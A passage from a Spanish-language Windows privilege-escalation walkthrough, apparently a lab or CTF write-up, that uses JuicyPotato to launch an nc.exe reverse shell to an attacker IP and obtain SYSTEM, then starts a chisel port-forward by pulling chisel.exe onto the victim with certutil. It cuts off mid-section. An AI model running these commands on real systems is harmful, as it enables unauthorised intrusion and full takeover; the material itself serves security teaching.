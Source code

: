 Ejecutamos `JuicyPotato` activando la reverse shell desde la máquina víctima

```bash
JuicyPotato.exe -t * -l 1231 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\priv\nc.exe -e cmd.exe 10.10.14.2 4566" -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

_NOTA: Identifica el sistema operativo con systeminfo para obtener el CLSID_

```bash
#OUTPUT
whoami
nt authority\system
```

## ESCALADA POR CHISEL

Para este último ejercicio de escalada de privilegios vamos a crear un `port forwarding` por medio de la herramienta [chisel](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz), para luego crear un usuario y asignarle privilegios, para obtener por medio de `cme` y `wmicexec.py` una consola interactiva con un usuario administrador.

Verificamos si el puerto `445` se encuentra habilitado en la máquina víctima.

```bash
netstat -nat

Active Connections

  Proto  Local Address          Foreign Address        State           Offload State
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost      
```

Descargamos y descomprimimos `chisel.exe`

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
gunzip chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 chisel.exe
```

Nos ubicamos en la carpeta donde vamos a descargar `chisel.exe` en la máquina víctima

```bash
cd C:\Windows\Temp\priv
certutil.exe -f -urlcache -split http://10.10.14.2/chisel.exe chisel.exe
```

Descargamos `chisel` para nuestra máquina atacante

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel
chmod +x chisel
upx chisel
```

Ejecutamos `chisel` en la máquina atacante
